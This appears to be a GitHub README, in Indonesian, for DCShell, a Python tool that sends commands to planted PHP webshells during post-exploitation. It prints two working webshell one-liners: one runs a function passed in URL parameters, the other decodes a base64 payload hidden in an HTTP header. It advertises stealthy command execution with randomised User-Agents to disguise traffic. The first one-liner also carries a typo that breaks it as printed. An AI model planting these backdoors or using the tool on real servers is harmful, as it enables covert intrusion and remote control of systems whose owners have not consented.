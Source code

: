 ![image](https://github.com/user-attachments/assets/b5eac3e2-eb02-4f29-a604-47a8264f23b6)

# 🛠️ DCShell v.1
DCShell adalah sebuah tools berbasis Python yang dirancang untuk mempermudah interaksi dengan webshell dalam skenario pengujian penetrasi (pentest). Tools ini menyediakan antarmuka berbasis terminal yang ramah pengguna serta mendukung dua mode eksekusi shell, yaitu:
- Rootkit Mode: Mengakses webshell yang dilindungi dengan password, di mana perintah dieksekusi melalui parameter URL.
  ```
  <?=$_GET[p]==_&&$_GET[f]($GET_[c]);
  ```
  
- Raptor Mode: Mengakses webshell yang menerima payload melalui header HTTP, di mana perintah dienkode dalam base64 dan disisipkan secara acak dalam header khusus.
  ```
  <?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
  ```

# 🎯 Tujuan Penggunaan
DCShell ditujukan untuk mempermudah eksekusi perintah sistem di server target melalui webshell secara stealthy, cepat, dan fleksibel. Cocok digunakan saat fase post-exploitation dalam pengujian keamanan aplikasi web, terutama ketika backdoor atau akses awal telah diperoleh.

# ⚙️ Fitur Unggulan
- 🔐 Dukungan password untuk webshell (mode Rootkit)
- 🧬 Payload base64 via header (mode Raptor)
- 🎛️ Pilihan fungsi PHP: system, passthru, shell_exec, dan exec
- 🎲 User-Agent acak otomatis untuk menyamarkan traffic
- 💻 Antarmuka interaktif dengan visualisasi tabel menggunakan rich
- 🚀 Loop perintah real-time seperti shell di terminal

# 💡 Usage
1. Pengguna memilih mode shell (Rootkit/Raptor).
   ![image](https://github.com/user-attachments/assets/20915e32-5c00-4bab-83ef-8bf9f0838a35)
3. Memasukkan URL shell dan informasi tambahan (seperti password).
   ![image](https://github.com/user-attachments/assets/04aa926f-9cfd-49d9-951f-3941691e551c)
5. Memilih metode eksekusi fungsi PHP.
6. Memasukkan perintah-perintah sistem untuk dieksekusi di server target.
7. Tools akan mengirim permintaan HTTP ke webshell dan menampilkan output di terminal.
8. Final
   ![image](https://github.com/user-attachments/assets/78668640-8523-4d1f-8291-28cedee69adc)

